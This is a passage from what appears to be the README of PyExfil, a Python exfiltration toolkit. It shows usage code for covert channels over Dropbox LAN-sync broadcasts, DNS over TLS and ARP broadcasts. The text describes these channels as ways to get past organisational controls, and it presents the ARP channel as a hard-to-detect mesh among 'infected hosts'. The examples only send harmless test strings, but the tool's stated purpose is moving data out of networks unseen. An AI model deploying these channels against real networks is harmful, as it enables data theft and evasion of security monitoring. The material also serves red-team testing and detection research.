 Please notice that the `listener` is the IP from which you're expecting to get the message. This is so that when you get a broadcast you know which one to decode and understand. `active` will point to which IP address to send the UDP packets. Use a `.255` address for broadcast or a specific IP for unicast.

Constant Sniff and Decode :
```python
SniffAndDecode(key="123456", host="OtherIP", port=17500)
```

Broadcast a message:
```python
obj = DB_LSP(key="123456", data="Hello World", host="192.168.0.255", port=17500)
obj.Send()
```

#### DNS Over TLS

DNS over TLS is as it sounds. As more and more services start supporting DNS over TLS and it seems like many organizations keep that door open as it this protocol provides superior protection over plain-text DNS we thought this might be an interesting opportunity.

```python
# For Client:
from pyexfil.Comm.DNSoTLS.client import Send

Send(data="Hal, please open the door.", server='1.1.1.1', port=DNS_OVER_TLS_PORT, certCheck=CHECK_CERT)


# Server:
from pyexfil.Comm.DNSoTLS.server import StartServer

StartServer(server_name=LOCAL_HOST, port=DNS_OVER_TLS_PORT, clients=MAX_CLIENTS, certfile=CERT_FILE, keep_ratio=True)
```

#### ARP Broadcast
This method is using ARP to broadcast messages over the LAN so that someone listening cannot locate who is listening on this channel. Obviously ARP would not be relayed outside the LAN, however, as a mesh network inside the LAN with broadcast functionality it should be as close an possible to impossible to detect and then identify infected hosts.

```python
# Broadcast:
from PyExfil.pyexfil.Comm.ARPBroadcast.communicator import broadcast

broadcast(message="This is a late parrot!", key=PYEXFIL_DEFAULT_PASSWORD)


# Listener:
import thread
from PyExfil.pyexfil.Comm.ARPBroadcast.communicator import Broker

b = Broker(key=PYEXFIL_DEFAULT_PASSWORD, retFunc=testCallBack)
thread.start_new_thread(b.listen_clients, ())
```
